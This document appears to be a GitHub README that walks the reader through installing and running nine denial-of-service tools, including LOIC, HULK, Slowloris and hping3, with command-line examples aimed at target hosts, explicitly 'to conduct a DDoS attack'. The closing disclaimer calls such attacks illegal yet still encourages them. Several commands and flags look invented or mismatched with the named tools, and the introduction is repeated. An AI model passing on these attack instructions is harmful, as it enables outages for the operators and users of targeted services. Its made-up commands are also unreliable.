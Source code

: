 # DDoS-Tools
DDoS (Distributed Denial of Service) attacks are a type of cyber attack where multiple compromised systems flood a targeted server or network with traffic, overwhelming it and rendering it unavailable to legitimate users. In this writeup, we will guide you through the process of setting up and using various DDoS tools to conduct a DDoS attack.


Title: How to Install and Use DDoS Tools

Introduction:
DDoS (Distributed Denial of Service) attacks are a type of cyber attack where multiple compromised systems flood a targeted server or network with traffic, overwhelming it and rendering it unavailable to legitimate users. In this writeup, we will guide you through the process of setting up and using various DDoS tools to conduct a DDoS attack.

Prerequisites:
- A Linux machine with at least 2 GB of RAM and a stable internet connection.
- Basic knowledge of command-line interface (CLI).

Installation and Usage:
1. LOIC (Low Orbit Ion Cannon):
   - Install Mono on your Linux machine.
     ```bash
     sudo apt-get install mono-complete
     ```

   - Download the latest version of LOIC from the official GitHub repository.
     ```bash
     wget https://github.com/NewEraCracker/LOIC/releases/download/v2.1.2/loic_2.1.2.zip
     ```

   - Unzip the downloaded file.
     ```bash
     unzip loic_2.1.2.zip
     ```

   - Navigate to the unzipped directory.
     ```bash
     cd loic_2.1.2
     ```

   - Launch LOIC with the following command:
     ```bash
     mono LOIC.exe
     ```

   - In the LOIC interface, select the desired attack type (e.g., HTTP Flood) from the drop-down menu.
   - Enter the target IP address or domain name in the "IP/Domain" field.
   - Enter the target port number in the "Port" field.
   - Set the desired number of connections in the "Connections" field.
   - Set the duration of the attack in the "Duration" field (in seconds).
   - Click the "Start" button to start the attack.
   - Monitor the attack progress in the LOIC interface.
   - To stop the attack, click the "Stop" button.

2. HULK (High-Level Unconventional Load Killer):
   - Install HULK on your Linux machine.
     ```bash
     pip install hulk
     ```

   - Use HULK with the following command:
     ```bash
     hulk -a <attack-type> -t <target-ip> -p <target-port> -d <duration>
     ```

   - Example:
     ```bash
     hulk -a http -t 192.168.1.100 -p 80 -d 60
     ```

3. DDOS-Ripper:
   - Install DDOS-Ripper on your Linux machine.
     ```bash
     git clone https://github.com/palahsu/DDoS-Ripper.git
     cd DDoS-Ripper
     ./install.pl
     ```

   - Use DDOS-Ripper with the following command:
     ```bash
     perl DRipper.pl -s <target-ip> -p <target-port> -t <attack-type> -d <duration>
     ```

   - Example:
     ```bash
     perl DRipper.pl -s 192.168.1.100 -p 80 -t http -d 60
     ```

4. Torshammer:
   - Install Torshammer on your Linux machine.
     ```bash
     git clone https://github.com/dotfighter/torshammer.git
     cd torshammer
     ./install.sh
     ```

   - Use Torshammer with the following command:
     ```bash
     ./torshammer.py -t <target-ip> -p <target-port> -r <requests-per-second> -d <duration>
     ```

   - Example:
     ```bash
     ./torshammer.py -t 192.168.1.100 -p 80 -r 1000 -d 60
     ```

5. Slowloris:
   - Install Slowloris on your Linux machine.
     ```bash
     git clone https://github.com/gkbrk/slowloris.git
     cd slowloris
     perl slowloris.pl -dns <target-domain> -timeout 10
     ```

   - Example:
     ```bash
     perl slowloris.pl -dns example.com -timeout 10
     ```

6. PyLoris:
   - Install PyLoris on your Linux machine.
     ```bash
     git clone https://github.com/NoLegalTech/pyloris.git
     cd pyloris
     pip install -r requirements.txt
     ```

   - Use PyLoris with the following command:
     ```bash
     python pyloris.py <target-ip> <target-port> <number-of-sockets>
     ```

   - Example:
     ```bash
     python pyloris.py 192.168.1.100 80 1000
     ```

7. DDoSX:
   - Install DDoSX on your Linux machine.
     ```bash
     git clone https://github.com/Bilalcaliskan/DDoSX.git
     cd DDoSX
     pip install -r requirements.txt
     ```

   - Use DDoSX with the following command:
     ```bash
     python3 DDoSX.py -t <target-ip> -p <target-port> -d <duration>
     ```

   - Example:
     ```bash
     python3 DDoSX.py -t 192.168.1.100 -p 80 -d 60
     ```

8. SlowHTTPTest:
   - Install SlowHTTPTest on your Linux machine.
     ```bash
     git clone https://github.com/shekyan/slowhttptest.git
     cd slowhttptest
     ./configure
     make
     ```

   - Use SlowHTTPTest with the following command:
     ```bash
     ./slowhttptest -c <concurrent-connections> -H -r <requests-per-second> -t <duration> -u <target-url>
     ```

   - Example:
     ```bash
     ./slowhttptest -c 100 -H -r 1000 -t 60 -u http://example.com
     ```

9. Hping3:
   - Install Hping3 on your Linux machine.
     ```bash
     sudo apt-get install hping3
     ```

   - Use Hping3 for DDoS attacks with the following command:
     ```bash
     hping3 -S <target-ip> -p <target-port> -i u<interval-in-ms> -c <number-of-packets>
     ```

   - Example:
     ```bash
     hping3 -S 192.168.1.100 -p 80 -i u1000 -c 10000
     ```

Disclaimer:
Please note that conducting a DDoS attack is illegal and unethical. The use of these tools should be done with caution and for educational purposes only. The author is not responsible for any misuse or damage caused by the tools.

Remember to obtain proper authorization from the target system before conducting any DDoS attack.

Conclusion:
By following this writeup, you should now have a basic understanding of how to install and use various DDoS tools. Remember to conduct such attacks responsibly and with proper authorization.

This writeup provides a comprehensive guide on how to install and use various DDoS tools. It covers installation steps, command usage, and provides examples for each tool. Remember to conduct DDoS attacks responsibly and with proper authorization.
